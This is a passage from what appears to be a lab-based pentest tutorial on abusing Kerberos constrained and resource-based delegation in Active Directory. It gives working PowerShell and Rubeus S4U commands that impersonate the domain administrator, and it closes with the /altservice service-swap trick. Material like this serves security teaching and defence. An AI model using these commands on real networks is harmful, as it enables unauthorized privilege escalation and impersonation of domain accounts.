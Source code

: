 ```

Now it's time to set our ```FAKE01``` account to the ```msDS-AllowedToActOnBehalfOfOtherIdentity``` option of ```epo``` with the PowerShell AD cmdlets:  

```
Add-WindowsCapability –online –Name “Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0”
Set-ADComputer epo -PrincipalsAllowedToDelegateToAccount FAKE01$
or
Set-ADComputer epo -PrincipalsAllowedToDelegateToAccount pwnduser_with_SPN
```
<img src="/images/2022-05-19/addfake.png"> 

Lastly some 

<img src="/images/2022-05-19/magic.png"> 

```
Rubeus.exe hash /password:Pillemann123
Rubeus.exe s4u /impersonateuser:administrator /msdsspn:cifs/epo.mcafeelab.local /domain:mcafeelab.local /user:FAKE01$ /rc4:0CF95DC54D380336A0A671B758A35834 /ptt
```
<img src="/images/2022-05-19/rbcdabuse1.png"> 
<img src="/images/2022-05-19/rbcdabuse2.png">  

BOOM - we made it.  

## Bonus material  

If you made it till here you are awesome.  
I want to shortly scratch the top of two more topics.  

### Protocol transition

Remember the part where I introduced you to Constrained Delegation? I only focused on the scenario where it was configured to ```Use any authentication protocol```. But what about the other option ```Use Kerberos only```?  
In these cases the ```S4U2self``` request will give you a nonforwardable ticket if the user didn't authenticate via Kerberos, which ultimately makes ```S4U2proxy``` fail. So everything that is no Kerberos authentication to that account is not abuseable.  
You can take a closer look at [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition).  

### Alternate Service Name  

If we happen to land in a situation where we can abuse Constrained Delegation, but the service we can delegate to is of no use like e.g. ```wsman``` because the service is not running on the target, we can add any other service to our ticket, as they are not validated at all.

<img src="/images/2022-05-19/bonus1.png"> 

If we do our S4U magic, we get a valid ST but can't access ```epo```:  

```
Rubeus.exe s4u /impersonateuser:god /msdsspn:wsman/epo.mcafeelab.local /user:win10x64$ /aes256:4b55fdf5d7d3ca7c537ca7de3bf212b515759fcfe406a0df87a04d4158b4fd82 /ptt
```
<img src="/images/2022-05-19/bonus2.png"> 

But if we specify the ```/altservice``` flag with e.g. ```cifs```:  

```
Rubeus.exe s4u /impersonateuser:god /msdsspn:wsman/epo.mcafeelab.local /user:win10x64$ /aes256:4b55fdf5d7d3ca7c537ca7de3bf212b515759fcfe406a0df87a04d4158b4fd82 /ptt /altservice:cifs
```
```